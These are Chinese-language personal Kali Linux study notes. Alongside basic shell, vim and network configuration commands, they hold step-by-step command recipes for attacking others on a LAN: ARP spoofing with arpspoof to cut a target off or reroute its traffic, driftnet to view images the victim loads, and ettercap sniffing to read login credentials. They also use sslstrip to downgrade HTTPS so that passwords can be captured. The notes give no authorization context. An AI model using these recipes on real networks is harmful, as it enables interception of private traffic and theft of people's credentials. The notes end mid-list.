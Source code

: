 # Kali Linux 学习笔记

reboot 重启

shutdown -h now 立刻关机

shutdown -r now 立刻重启

Kali更新源:

​       1.输入leafpad /etc/apt/sources.list打卡kali源文本；

​       2.去百度搜索Kali更新源然后将其复制并粘贴到源文本中；

​       3.使用apt-get update命令来进行Kali源更新；

Kali美化：apt-get install kde-full

Kali安装输入法:

​        leafpad /etc/apt/sources.list添加更新源

​        apt-**get** update更新系统

​        apt-**get** install fcitx安装fcitx

​        apt-get install fcitx-googlepinyin安装谷歌拼音

​        reboot重新启动

ifconfig获取ip地址

dir ls   列出当前目录中的所有文件

sqlmap相当于啊D，明小子；都属于注入工具

查找这个文件所在的位置：find / -name 工具名字

如果忘记了某个命令怎么用则可以-help

fping -asg 192.168.1.0/24查询当前局域网内的所有IP地址

​                               ↑

​                          根据当前局域网的开头决定

如何使用ARP欺骗实现断网攻击:

​          arpspoof -i 网卡 -t 目标IP 目标默认网关

​      例: arpspoof -i eth0 -t 192.168.1.12 192.168.1.1

Arp欺骗：

​        目标IP流量经过我的网卡，从网关出去；

 如何实现IP流量转发: 1.先输入echo 1 >/proc/sys/net/ipv4/ip_forward

Arp断网:

​        目标IP流量经过我的网卡；

查看别人访问的所有图片:

​               1.使用arp欺骗；

​               2.使用driftnet -i eth0 命令实现查看本机流量中的图片                                                       （因为将对方IP流量访问的图片经过了本机流量所以当driftnet命令去读取图片时:实则读取的是对方访问过的图片)

Cat 查看内容: cat /proc/sys/net/ipv4/ip_forward

使用ettercap嗅探实现读取对方在HTTP加密中输入的账号和密码：

ettercap -Tq -i eth0      

   -Tq 启动文本安静模式      -T启动文本模式     q安静模式    -i 接网卡

获取对方在HTTP中输入的账号和密码:

​     1.输入echo 1 >/proc/sys/net/ipv4/ip_forward(将对方流量转化到从网关出去）

​     2.输入cat /proc/sys/net/ipv4/ip_forward  （实现读取文本)

​     3.输入ettercap -Tq -i eth0  （嗅探你在网页中的输入并将其展现给你)

​     4.输入arpspoof -i eth0 -t 192.168.1.xxx 192.168.1.1（进行arp欺骗)

   接受ettercap返回的信息；

注:有时嗅探到的是URL加密过的值，那么你可以去百度URL解码，再将ettercap嗅探嗅探到的URL加密码复制上去进行解码。

vim  文本编辑器:

​            vim 文件名

​            如何推出： 1.按一下esc键 

​                               2.按shift + ：并输入 q！按回车则可以退出。（q! 是退出不保存)

获取对方在HTTPS中输入的账号和密码:

​     1.输入vim /etc/ettercap/etter.conf

​     2.找到Linux下面的第二个if中的两个#号，将其删除

​     3.然后按下esc键，按shift+：键 ，输入wq（退出并保存)

​     4.sslstrip -a -f -k ：将一些HTTPS的链接还原为HTTP

​     5.进行arp欺骗

​    6.进行ettercap嗅探抓包

##                              **安全牛**

1. 熟悉KaliLinux基本命令:

- ​     命令  ls

​                   效果  列出当前目录中的所有文件

![img](F:\有道云笔记\qq31BDEC0D05E5A1626E555CD1BA33D617\8637c47a30c3465a8deae59ec2dad5f7\36dd9d99e8a4476880ab85dcb92b8a00.jpg)

​     注意 蓝:目录     绿:可执行文件    红:压缩包文件    白:普通文件 

- ​     命令 ls -l

​                   效果 以列表的形式列出当前目录中的所有文件

![img](F:\有道云笔记\qq31BDEC0D05E5A1626E555CD1BA33D617\e29f33752683475e93bf9eff3590a28f\82f65f174e79437ea197d127c1c64136.jpg)

​       注意    链接个数所有者所有组大小      修改日期           文件名

​     注意(开头字母)   d 目录    - 文件  c 字符型设备  l 链接  b 块设备(硬盘)

- ​     命令 ls -a

​                   效果 可显示隐藏文件(文件名以 "." 开头)

![img](F:\有道云笔记\qq31BDEC0D05E5A1626E555CD1BA33D617\5a4028ec5be048ea9c924524f857e1c9\baf6804dd5e847d0aacaa07604af20ae.jpg)

- ​     命令 ls -h

​                   效果 展现形式更易懂

![img](F:\有道云笔记\qq31BDEC0D05E5A1626E555CD1BA33D617\615c2b2dcd6d4751b1ce24c336f57961\13a28e4eb3ec4b96800805a1e2555471.jpg)

​	2.给KaliLinux进行更优的配置:

- IP配置:

1. dhclient eth0 可以让DHCP给我们自动分配一个IP地址
2. ifconfig eth0 想指定的IP地址/24(指定掩码位数)
3. route add dedault gw 192.168.1.1 指定一个网关(上网需要)
4. 